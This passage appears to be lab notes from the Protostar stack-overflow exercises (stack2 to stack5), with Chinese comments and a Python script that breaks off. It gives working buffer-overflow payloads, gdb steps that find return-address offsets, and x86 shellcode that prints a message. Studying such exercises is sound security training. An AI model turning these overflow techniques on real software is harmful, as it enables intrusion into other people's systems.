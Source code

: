 #### 0x02 stack2
    mykey:
        export GREENIE=`python -c "print 'A'*64+'\x0a\x0d\x0a\x0d'"`
        ./stack2

#### 0x03 stack3
    mykey:
        gdb ./stack3
        b win
        output:breakpoint 1 at 0x804842a...
        quit
        python -c "print 'A'*64+'\x2a\x84\x04\x08'" | ./stack3

#### 0x04 stack4
    mykey:
        gdb ./stack4
        disas win
            查得win函数的地址为080483f4
        disas main
        b *main+3
            esp最后一位置0,实时跟踪esp最后一位为8
            填充字节数为8+64+4(4为main函数中的ebp所占空间)=76
            最后确定77-80个字节为覆盖main函数的返回地址的位置
        q
        y
        r < /tmp/stack4
            /tmp/stack4为AAA..A1234(76个A+1234)
        vi /tmp/stack4
        :%!xxd
            修改31323334处为f4830408
        :%!xxd -r(保存作用)
        gdb ./stack4
        r < /tmp/stack4

#### 0x05 stack5
    mykey:
        su
        godmode
        vi /proc/sys/fs/suid_dumpable
            设置为1,允许suid文件可以dump
        cd /tmp
        vi stack5.py
        ----------stack5.py---------
        #!/usr/bin/python
        import os
        import sys
        import struct
        
        shellcode1="\x90"*40
        shellcode1="\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x04\xb3\x01\x68\x64\x21\x21\x21\x68\x4f\x77\x6e\x65\x89\xe1\xb2\x08\xcd\x80\xb0\x01\x31\xdb\xcd\x80"
        
